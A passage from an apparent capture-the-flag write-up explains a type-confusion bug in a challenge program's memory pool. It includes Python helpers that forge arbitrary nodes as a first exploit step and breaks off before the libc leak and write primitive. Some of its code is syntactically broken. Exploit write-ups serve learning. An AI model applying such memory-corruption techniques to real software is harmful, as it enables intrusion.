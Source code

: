 ```rust
    node.text_index = add_pool(new_string);
    node.text_len = len;
}

fn encode(bin_vals, bin_len) -> (&str, u64){
    if bin_len == 0 {
        // NULL == 0
        return (NULL, 1);
    }
    ...
}
```

(Here we skip over a lot of details which are not relevant here.) Basically the
`write_bin` function always add to the pool even if the encoding fails.

The garbage collector considers a cell free if its `value >> 3 == 0` and this
olds for NULL. Therefore we have a type confusion where we can have the same
memory referenced as a text and a node.

![](https://i.imgur.com/2GSOiz3.png)

```python
def craft_node(_id, **kwargs):
    """Helper function to get the bytes of an arbitrary node"""
    s  = p64(_id)
    s += p64(kwargs.get("this_idx", 0x4141414141414141)
    s += p64(kwargs.get("edges", 0)
    s += p64(kwargs.get("last_edge", 0)
    s += p64(kwargs.get("edges_end", 0)
    s += p64(kwargs.get("text_len", 0x4141414141414141)
    s += p64(kwargs.get("text_idx", 0x4141414141414141)
    s += p64(kwargs.get("stamp",0x4141414141414141 )
    return s

def forge_node(**kwargs):
    # write an empty b64 to cause the bug in the node 0
    write_bin(0, "")
    # Create a new node which will be confused
    # with the text of the node 0
    node_id = create(0)
    # Create the bytes for the arbitrary node
    crafted = craft(node_id, **kwargs)
    # Write it
    write_text(0, crafted)
    return node_id
```

Now that we can forge arbitrary nodes we need to find a leak of the libc address
and a write primitive.

The pseudo-rust of the connect_node function is:
